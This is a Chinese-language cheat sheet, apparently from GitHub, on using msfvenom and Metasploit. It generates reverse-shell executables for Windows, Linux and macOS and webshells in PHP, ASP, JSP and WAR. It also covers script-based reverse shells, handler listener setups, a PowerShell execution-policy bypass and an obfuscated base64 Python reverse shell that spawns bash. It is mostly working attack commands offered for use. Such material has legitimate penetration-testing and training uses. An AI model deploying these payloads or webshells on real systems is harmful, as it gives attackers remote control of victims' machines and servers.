 ## 生成适用于`msf`的`payload`以及利用

主要记录一下常用的`payload`以及如何使用。

生成`payload`使用的工具是`MSFVenom`

在`kali`下可以使用如下命令列出`MSFVenom`可以生成的`payload`列表：

`msfvenom -l`



-----
生成二进制文件
关于二进制文件，主要介绍适用于Windows、linux、mac操作系统的payload生成与利用。


```shell
Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

如何利用
针对这个部分就以`Windows`为例，使用上面的命令生成一个`exe`的`payload`

命令如下：

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.88.128 LPORT=4444 -f exe > shell.exe`

> 记得一定要把 lhost lport 都填全
-----

 
复制`shell.exe`到`Windows`机器，然后`kali`下开启`msf`使用如下命令监听`4444`端口：

```shell
msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```
 
执行完之后在Windows下执行`shell.exe`，然后等结果

-----
 
在这里既然使用到了在Windows下执行应用程序，我们就大概盘点一下在Windows执行应用程序的几种方式：

双击运行
cmd下运行exe
利用Powershell远程下载执行
利用at或schtasks设置计划任务执行
利用wmic远程命令执行
其他的方式请各位补充
生成webshell脚本
在做web渗透的时候，经常会用到webshell，我们经常用的一句话用菜刀连接，如何使用MSFVenom生成一个可以用msf操作的webshell呢？

- PHP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

 
- ASP

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

- JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

- WAR
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

---------------------
## 利用

下面以php为例做一下测试，使用以下命令生成一个webshell：

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.88.128 LPORT=4444 -f raw > shell.php`

 
在kali上使用msf执行下面的命令，监听端口4444：
```shell
msfconsole

use exploit/multi/handler

set PAYLOAD php/meterpreter_reverse_tcp

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z

```
将`shell.php` 放在`web`目录下，使用 **浏览器访问**，或者使用以下命令执行：

`php shell.php`

------- 

## 脚本`shell`

关于使用脚本反弹`shell`的方式，主要以`python`、`bash`、`perl`为例。

- Python
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

- Bash
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

- Perl
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

- Powershell
`msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f psh > shell.ps1`

`powershell.exe -ExecutionPolicy Bypass -File shell.ps1`

----
## 使用
下面就以Python为例做一下测试，使用以下命令生成一个脚本：

`msfvenom -p cmd/unix/reverse_python LHOST=192.168.88.128 LPORT=4444 -f raw > shell.py`

 
在kali上使用msf执行下面的命令，监听端口4444：

```shell
msfconsole

use exploit/multi/handler

set PAYLOAD cmd/unix/reverse_python

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```
 
然后复制`shell.py`中的内容在linux命令行下执行，如下：

```python
python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIxOTIuMTY4Ljg4LjEyOCIgICAgICA7ICAgIHBvcnQ9NDQ0NCAgICAgIDsgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkgICAgICA7ICAgIHMuY29ubmVjdCgoaG9zdCxwb3J0KSkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwwKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDEpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMikgICAgICA7ICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"
```
 



## 总结
`msfvenom`生成常用的反向连接的`shell`，`msfvenom`可以生成的`shell`很多